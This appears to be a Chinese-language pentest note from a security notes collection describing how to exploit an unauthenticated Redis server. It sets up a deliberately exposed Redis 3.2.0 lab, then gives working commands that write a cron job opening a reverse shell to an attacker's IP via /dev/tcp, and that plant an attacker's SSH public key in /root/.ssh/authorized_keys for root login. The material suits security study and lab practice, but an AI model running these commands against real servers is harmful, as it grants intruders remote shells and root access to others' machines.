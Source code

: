 - 搭建环境
    ```bash
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
    ```
    ```vim
    vim redis.conf

    # bind 127.0.0.1
    protected-mode no
    ```
    ```
    ./src/redis-server redis.conf
    ```

- 利用
    ```sql
    redis-cli -h <目标IP>
    >info   # 查看redis版本信息、一些具体信息、服务器版本信息等等：
    >CONFIG GET dir # 获取默认的redis目录
    >CONFIG GET dbfilename # 获取默认的 rdb 文件名
    ```

    **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dir /var/spool/cron/
    > config set dbfilename root
    > save
    ```

    **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下，可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh
